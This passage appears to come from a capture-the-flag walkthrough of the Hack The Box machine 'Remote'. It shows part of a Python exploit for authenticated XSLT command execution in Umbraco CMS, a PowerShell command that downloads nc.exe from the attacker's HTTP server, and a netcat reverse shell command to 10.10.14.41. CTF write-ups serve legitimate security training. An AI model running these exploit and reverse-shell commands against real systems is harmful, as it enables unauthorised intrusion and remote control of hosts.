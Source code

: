 ```python
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```

Since it is a windows machine, we will upload a netcat windows binary to use to get a reverse shell, by first starting a http server on our kali machine

```
sudo python3 -m http.server 80 --dir /usr/share/windows-resources/binaries/
```

and then run the exploit like so

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "(new-object system.net.webclient).downloadfile('http://10.10.14.41/nc.exe','c:/users/public/nc.exe')"
```

followed by

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c "c:/users/public/nc.exe" -a "10.10.14.41 1234 -e cmd.exe"
```

We pop a shell and have access to the user.txt

![user flag](/assets/img/walkthroughs/remote_usershell.png)

<h4 align="center">On To Root!</h4>
